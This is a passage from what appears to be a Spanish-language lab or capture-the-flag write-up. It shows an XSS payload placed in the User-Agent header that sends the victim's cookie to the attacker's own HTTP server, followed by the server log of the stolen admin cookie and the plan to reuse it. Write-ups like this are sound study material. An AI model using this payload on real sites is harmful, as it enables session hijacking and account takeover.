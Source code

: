 ## Stealing administrator user session cookie via XSS

Por lo tanto, lo que probaremos es de realizar un `Cookie Hijacking` para robar la cookie de sesión de algún usuario que se encuentre revisando nuestra solicitud, en el caso de que lo haya...

Nos levantaremos un servidor web en nuestro equipo.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

En el campo de `User-Agent` estableceremos la siguiente inyección XSS para que nos envíe la cookie del usuario.

```javascript
<script>var i=new Image(); i.src="http://10.10.16.5/?cookie="+document.cookie;</script>
```

Al pasar un tiempo, verificamos que recibimos una cookie diferente a la nuestra, por lo que parece ser que un usuario ha revisado nuestro formulario y hemos logrado obtener su cookie.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.16.5 - - [27/Jan/2025 00:38:22] "GET /?cookie=is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs HTTP/1.1" 200 -
10.10.11.8 - - [27/Jan/2025 00:38:28] "GET /?cookie=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 200 -
```

Al descodificar esta cookie obtenida, verificamos que el usuario del que se trata es del usuario `admin`.

```bash
❯ echo 'ImFkbWluIg' | base64 -d; echo
"admin"
❯ echo 'dmzDkZNEm6CK0oyL1fbM-SnXpH0' | base64 -d; echo
vlÑ�D���Ҍ����base64: entrada inválida
```

Regresaremos a la página de [http://10.10.11.8:5000/dashboard ](http://10.10.11.8:5000/dashboard)y modificaremos la cookie actual, por la cookie robada del usuario `admin`

<figure><img src="../../.gitbook/assets/imagen (13) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
